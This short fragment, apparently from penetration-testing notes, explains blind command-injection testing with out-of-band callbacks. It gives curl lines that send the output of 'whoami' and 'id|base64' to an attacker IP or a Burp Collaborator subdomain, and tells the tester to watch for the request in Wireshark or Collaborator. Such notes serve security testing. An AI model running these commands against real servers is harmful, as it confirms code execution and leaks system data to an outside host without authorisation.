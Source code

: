 `curl http://attacker_IP/'whoami'`

or

`curl http://<your_subdomain>.burpcollaborator.net/'whoami'`

Monitor with WireShark on your IP or monitor Collaborator client to see if request was made by the server and if code execution was successful.

Can use base64 encoding to allow for spaces to be included in data sent by server:

`curl http://<your_subdomain>.burpcollaborator.net/'id|base64'`